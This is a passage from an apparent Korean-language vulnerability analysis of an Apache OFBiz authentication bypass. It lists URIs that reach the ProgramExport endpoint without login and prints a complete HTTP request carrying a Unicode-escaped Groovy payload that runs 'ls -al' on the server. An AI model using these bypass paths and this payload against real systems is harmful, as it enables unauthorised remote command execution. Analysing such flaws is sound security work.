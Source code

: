 즉, 요청 URI(`requestURI`)에 대해 `controller.xml` 에서 `auth="false"` 로 정의된 경우 인증 없이도 접근이 가능한 엔드포인트가 존재하게 됩니다만, Apache OFBiz는 URI 처리 메커니즘에서 특이점이 존재합니다. (ref. [URI 처리 메커니즘](/Apache%20OFBiz%201-Day%20Analysis/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md#URI-처리-메커니즘) )

이는 요청 URI(`requestURI`)는 인증 처리 과정이 존재하지만, 뷰 맵(`overrideViewrUri`)은 인증 처리를 수행하지 않는 것입니다. 따라서, 인증이 필요하지 않은 다른 엔드포인트와 함께 `ProgramExport` 엔드포인트를 덮어씌우는 URI로 요청할 경우 인증 없이도 `ProgramExport` 엔드포인트에 접근이 가능해집니다.

✅ `ProgramExport` 엔드포인트에 접근 가능한 URI 

- `POST` `/webtools/control/main/ProgramExport`
- `POST` `/webtools/control/forgotPassword/ProgramExport`
- `POST` `/webtools/control/showDateTime/ProgramExport`
- `POST` `/webtools/control/view/ProgramExport`
- `POST` `/webtools/control/*TestService*/ProgramExport`

이어서 바로 위 내용에 대한 분석을 수행해보겠습니다. 

## 근본적인 원인 분석

먼저, `ProgramExport` 엔드포인트에 접근 가능한 URI 중 아래의 URI에 대한 패킷을 요청해 보겠습니다.

✅ `POST` `/webtools/control/main/ProgramExport`

```xml
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```

위 요청에 대해서 `ControlFilter.java` 에서는 다음과 같이 공격 벡터가 담긴 URI 패턴 검사에 해당되지 않으므로 URI에 대한 검증을 통과하게 됩니다. 

![image](./images/image-005.png)
